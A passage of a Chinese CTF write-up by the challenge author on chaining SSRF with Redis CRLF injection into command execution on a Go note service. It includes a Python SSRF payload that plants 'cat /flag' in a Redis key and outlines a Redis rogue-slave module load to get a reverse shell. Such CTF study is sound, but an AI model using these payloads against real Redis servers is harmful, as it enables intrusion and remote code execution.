 ```go
	}

    // buf.
    
	buf.WriteString(string(opBytes))
	return buf.String()

}

```

如果可以完全控制 `Adminnote` 的内容，就可以利用 `getMemory` 这个点实现任意命令执行。


## 0x3 非预期解

我没有仔细看 sid 和 redis中的key值的对应关系，导致了可以根据 sid 直接获取到redis中的key值，进而使用ssrf直接控制redis中对应的key值为对应的内容，实现rce。

```python
name = 'session_'+s0.cookies['sid'].replace('-','+').replace('_','/').decode('base64').split('|')[1].decode('base64')[4:]
val = "{\"notes\":[{\"Type\":\"adminnote\",\"Data\":{\"title\":\"aaa\",\"memory\":\"cat /flag\",\"who\":\"dotsu\",\"version\":\"1234\"}}]}"
data = {
'title':'test1',
'url':'http://redis:6379?\r\nauth redis123456aB\r\nSET %s \'%s\'\r\n'%(name, val)
}
r = s1.post(timeout=4,url=note_now_url,data=data)
```

哎，这样太简单了，直接导致某些队伍直接爆打全场，贼大的失误。。。

## 0x4 预期解法

我预期的解法是不知道redis中的key的情况下修改redis中的数据，控制go服务实现任意命令执行，下面详细说一下预期解法的实现步骤

**预期解法：**

1. 使用redis的slave模式，让其加载恶意的so模块，实现 redis 的 rce，反弹 shell 。
2. 然后利用 redis 反弹的 shell，读取 redis 中的 key 值
3. 修改key值对应的 value，实现 go web 服务的 rce。

但是获取 redis 的 shell 过程有两个问题需要解决：

1. redis成为 slave 模式之后，就会清空自己的数据，并变成不可写。因为redis变成不可写，导致无法插入新的urlnote，无法发起新的SSRF攻击。

2. redis 成为 slave 模式之后，隔一段时间才会去下载 master 的数据。 因为有一段时间间隔，导致我们没办法使用一个 SSRF payload 让 redis 成为 slave 模式的同时，还可以加载 so 库 ，并实现任意代码执行。

**如果你找到了仅使用一个 SSRF payload 就拿到 redis 的 shell 的办法，请一定要带带我**

为了解决这个问题，就需要发送两个请求，第一个请求让 redis 成为 slave 模式，第二个请求让redis加载第三方模块，进行命令执行，同时恢复正常模式。

但是这两个请求之间要有一个较长的时间延迟，让redis有足够的时间去同步master的数据。所以这里最好的做法是在两个请求之间再插入一个请求，让这个请求连接一个不存在的地址，等待TCP超时之后，再发起第三个请求。
